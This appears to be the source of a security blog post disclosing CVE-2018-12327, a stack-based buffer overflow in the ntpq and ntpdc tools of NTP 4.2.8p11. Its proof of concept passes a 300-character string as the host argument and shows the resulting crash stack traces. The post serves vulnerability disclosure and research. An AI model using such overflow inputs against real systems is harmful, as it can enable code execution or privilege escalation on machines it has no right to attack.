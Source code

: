 ```yaml
---
layout: post
title: "[CVE-2018-12327] ntpq and ntpdc 4.2.8p11 Stack-based Buffer Overflow"
excerpt: "A trivial stack-based buffer overflow."
modified: 2018-06-06
categories: proof-of-concept
tags: ["ntp"]
comments: true
---
```


# Overview
Stack-based buffer overflow in ntpq and ntpdc of NTP version 4.2.8p11 allows a local attacker to achieve code execution or escalate to higher privileges via a long string as the argument for an IPv4 or IPv6 command-line parameter.

# Proof-of-Concept
{% highlight bash %}
$ ./ntpq -4 [`python -c 'print "A" * 300’`]

#0 0x562fcada86ce in openhost /home/user/ntp-4.2.8p11/ntpq/ntpq.c:655:12
#1 0x562fcada5f2a in ntpqmain /home/user/ntp-4.2.8p11/ntpq/ntpq.c:606:10
#2 0x562fcada4729 in main /home/user/ntp-4.2.8p11/ntpq/ntpq.c:469:9
#3 0x7f79b684982f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#4 0x562fcac96d88 in _start (/home/user/ntp-4.2.8p11/ntpq/ntpq+0xacd88)

$ ./ntpdc -4 [`python -c 'print "A" * 300'`]

#0 0x55f726641efe in openhost /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:413:12
#1 0x55f7266400d4 in ntpdcmain /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:365:10
#2 0x55f72663f269 in main /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:255:9
#3 0x7f0fc632382f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#4 0x55f7265362d8 in _start (/home/user/ntp-4.2.8p11/ntpdc/ntpdc+0x9d2d8)
{% endhighlight %}
